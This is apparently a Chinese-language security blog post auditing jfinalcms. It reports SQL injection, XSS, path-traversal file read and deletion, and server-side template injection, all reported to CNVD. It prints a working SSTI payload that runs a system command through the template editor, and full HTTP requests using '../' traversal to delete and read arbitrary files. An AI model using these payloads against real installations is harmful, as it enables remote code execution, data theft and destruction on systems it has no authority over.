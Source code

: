 

# 快速审计记录 (三)--jfinalcms - 先知社区

快速审计记录 (三)--jfinalcms

- - -

这个 cms 其实这个师傅已经审计的差不多了，只是我又找到一些别的有趣的点。  
[https://xz.aliyun.com/t/13259](https://xz.aliyun.com/t/13259?time__1311=mqmxnDBD9DyDuCDlxGo4%2Bh%3DOKuirK7jCeD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ftab%2F1%3Fpage%3D2)

# SQL 注入

## 前置知识

jfinal 框架下的预处理为如下

```plain
Long count = Db.queryLong("select count(1) from cms_admin where username = ?",username);
```

使用占位符进行替代  
存在 SQL 注入的就是直接使用拼接进行数据查询

```plain
return paginate(pageNumber, pageSize, "select *", "from cms_admin where 1=1 "+filterSql+orderBySql);
```

可以看到进行拼接

## 漏洞代码

[![](assets/1707954818-0638daf2a2e52bf20bafe98e9afbf265.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826657460-f26b3fbb-3dc9-4d74-8404-a74fd3ce6fec.png#averageHue=%23202226&clientId=udc11ffe9-a4f1-4&from=paste&height=123&id=cJm4r&originHeight=184&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29005&status=done&style=none&taskId=u23e060b2-55d5-4273-866e-3ebc1ab2feb&title=&width=1024)  
可以看到拼接 查找 source 点  
[![](assets/1707954818-7327590eb730a5893a1451150b1b6708.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705826825854-6de2270b-97a9-401a-a612-c2d26a9c5a02.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=489&id=z4TXA&originHeight=733&originWidth=1471&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=93789&status=done&style=none&taskId=uc1e53775-ad64-4280-a908-ae10297b0be&title=&width=980.6666666666666)

# XSS

这个系统基本上到处都是 XSS，这里就不展开分析了

# 前台任意文件读取

## 漏洞详情

[![](assets/1707954818-4db16a66545b6d1ed5102fe7dc080fa8.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820922080-dd57992e-b416-4f07-a7ba-b133eddfba3f.png#averageHue=%23eceff4&clientId=udc11ffe9-a4f1-4&from=paste&height=397&id=u07fee428&originHeight=595&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=124277&status=done&style=none&taskId=ub1bd8bbd-72d1-4f13-9443-2972ce59ccc&title=&width=1024)  
接口参数`/common/down/file?fileKey`

## 代码详情

[![](assets/1707954818-60c38b8b523a2beecee08bf2049e2b5f.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705820961166-7e855054-47b9-47a5-984d-b0cf1638fa7e.png#averageHue=%2320252f&clientId=udc11ffe9-a4f1-4&from=paste&height=237&id=u51231c16&originHeight=355&originWidth=1525&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50146&status=done&style=none&taskId=ud69c0f72-cd2b-4514-8637-4bfa3229464&title=&width=1016.6666666666666) 未过滤../造成任意文件读取

# SSTI

## 漏洞详情

```plain
#set((java.beans.Beans::instantiate(null,"javax.script.ScriptEngineManager")).getEngineByExtension("js").eval("function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\"calc.exe\")"))
```

## [![](assets/1707954818-874fe60ef7032dc09f168c98aa2c81e9.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821634804-a284a760-53d8-4cec-a400-2bcfc6025156.png#averageHue=%23e1b980&clientId=udc11ffe9-a4f1-4&from=paste&height=760&id=u8e63be11&originHeight=1140&originWidth=2151&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=295131&status=done&style=none&taskId=u0dd147a0-fac7-4547-98e8-b8d318113ee&title=&width=1434)

[![](assets/1707954818-e512f7eb65a7f169b9c36758af7ca9ac.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821613990-aeba0c49-f2ee-4cab-acbd-26d8e4659852.png#averageHue=%23b9ccab&clientId=udc11ffe9-a4f1-4&from=paste&height=632&id=uc74bd9fd&originHeight=948&originWidth=1786&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=564988&status=done&style=none&taskId=ua17b52f7-7868-4e49-a0b7-728516cf42d&title=&width=1190.6666666666667)  
在模板管理处写入恶意代码，返回首页可以看到 代码被执行了。

## 代码详情

抓包的时候路由为`/admin/template/edit`  
`src/main/java/com/cms/controller/admin/TemplateController.java`  
[![](assets/1707954818-3d13d066455421b1c3d27dc70f776150.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821808760-f5f1a309-7bc4-43f2-a943-56059c800d53.png#averageHue=%2320242b&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=u0d2f2512&originHeight=649&originWidth=1602&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=128536&status=done&style=none&taskId=u32b83371-a4a0-48ae-8b58-4afea23d916&title=&width=1068)  
debug 的时候 可以看到对插入的内容没有任何检测  
当然 save 方法也是如此  
[![](assets/1707954818-fd9d705bca240f904c2c57c3a51c2496.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705821894808-053df7b6-da95-476c-967f-2b014b46873d.png#averageHue=%231f2124&clientId=udc11ffe9-a4f1-4&from=paste&height=417&id=uad49202e&originHeight=625&originWidth=1426&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=97711&status=done&style=none&taskId=u81ce3e8e-b1f8-4ee0-b950-6bcac328a10&title=&width=950.6666666666666)  
复现到这里，感觉，后台又很多漏洞，不是很想复现了，于是我转眼开始看前台的洞，看看有没有未授权，后台有没有别的有意思的。  
于是找到了一个任意文件删除和前台的任意文件读取

# 任意文件删除

## 漏洞详情

[![](assets/1707954818-57010dde8c12c9cfb924a03ebede4dbf.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822232392-ebd4b60f-834f-4453-94fa-1f336d3ecb52.png#averageHue=%23f9f8f8&clientId=udc11ffe9-a4f1-4&from=paste&height=699&id=u726423c2&originHeight=1048&originWidth=2061&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=136649&status=done&style=none&taskId=u07be5324-663f-4916-8d0d-fab4056a889&title=&width=1374)

```plain
GET /admin/template/delete?fileName=../../../../../../../../../../../../../../../../../1.txt&directory=default HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-User: ?1
Sec-Fetch-Mode: navigate
Referer: http://127.0.0.1:8888/admin/template?directory=default
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Sec-Fetch-Site: same-origin
```

## 漏洞分析

[![](assets/1707954818-4022c3546529a63c4498bfa9aeed9bc1.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822183814-d857b0e9-5912-4f4b-9ae6-0f21e87eab1d.png#averageHue=%2320252d&clientId=udc11ffe9-a4f1-4&from=paste&height=303&id=u5c205cfa&originHeight=454&originWidth=1639&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=99326&status=done&style=none&taskId=u418ce407-d162-4d8b-85e7-bdf70bf55a0&title=&width=1092.6666666666667)  
没做任何过滤 可以删除任意文件

# 前台任意文件读取

## 漏洞详情

[![](assets/1707954818-347d022ee189a82b01214259f67d04b2.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822801905-1e1a598a-7d41-4d13-8e4c-b2806ca1bb60.png#averageHue=%238dbedc&clientId=udc11ffe9-a4f1-4&from=paste&height=433&id=ub6c50c71&originHeight=649&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=120685&status=done&style=none&taskId=u88946451-e2aa-496d-97a9-87b3944f13e&title=&width=1024)

```plain
GET /ajax/html?html=../../../../../../../../../../../../../1.txt HTTP/1.1
Host: 127.0.0.1:8888
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=node015ngvb2ja0qa1wkafhnodmyx50.node0; _jfinal_captcha=f9a9d1bdbbe14e6fb43902e9fb6daec9; listQuery=directory%3Ddefault
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Sec-Fetch-Site: none
```

## 漏洞分析

[![](assets/1707954818-a48bcb958dc9d3f2f7708994e4491353.png)](https://cdn.nlark.com/yuque/0/2024/png/21762749/1705822783689-595b47d4-23ca-4bd8-950d-465b427454ff.png#averageHue=%231f2024&clientId=udc11ffe9-a4f1-4&from=paste&height=335&id=u9041c126&originHeight=502&originWidth=1089&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42233&status=done&style=none&taskId=u47de7ebe-ecfa-4893-a15d-1b0e3e12206&title=&width=726)  
目录穿越 直接渲染读取

## 小结

如上漏洞已经提交 CNVD 并且通过。  
这套代码已经一年多没有更新了，用来入门 jfinal 框架还是很不错的。
